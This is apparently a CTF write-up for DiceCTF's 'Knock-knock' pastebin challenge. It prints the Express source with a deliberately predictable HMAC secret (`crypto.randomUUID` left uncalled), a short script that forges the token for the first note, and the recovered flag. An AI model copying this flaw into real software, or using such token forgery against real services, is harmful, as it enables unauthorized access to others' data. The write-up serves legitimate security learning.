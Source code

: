 # Knock-knock
### Task source: https://github.com/Tzion0/CTF/tree/master/DiceCTF

Looking at the webpage, it is a site similar to pastebin that let us to create paste.

![IMG](_resources/img.png)

After clicking the `create` button, it will redirect us to a page with an unique token that contains our paste:

```
https://knock-knock.mc.ax/note?id=2249&token=262fedf8ca783b2fd19c581064ab48511877fe2bff4f3ad79726c9ae8277cfd5
```

Fortunately we have source code comes with this challenge:

```
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});

```

Looking at the source code, we can determine that the value of param `id` will increase by 1 everytime someone create a paste, while the token is created by using `crypto.createHmac()` with a secret key.

It tooks me a while to actually notice where the vulnerability is. In fact, the vulnerability is hiding in this code:

```
constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
}
```

The calling of `crypto.randomUUID` missing parentheses, it actually will always return the below on recommended version of nodejs:

```
secret-function randomUUID(options) {
  if (options !== undefined)
    validateObject(options, 'options');
  const {
    disableEntropyCache = false,
  } = options || {};

  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');

  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();
}
```
#### Note: For lower version of nodejs, it will return `undefined` instead. 

So the correct code should be `crypto.randomUUID()` instead to get the proper random secret. With that, I create a small script to generate URL of other paste, I assuming that the first paste `id=0` is the flag:

```
const crypt = require('crypto');
secret = `secret-${crypt.randomUUID}`;

console.log(`https://knock-knock.mc.ax/note?id=0&token=${crypt.createHmac('sha256', secret).update('0').digest('hex')}`);
```

Output:
```
https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```

Flag:
```
dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}
```
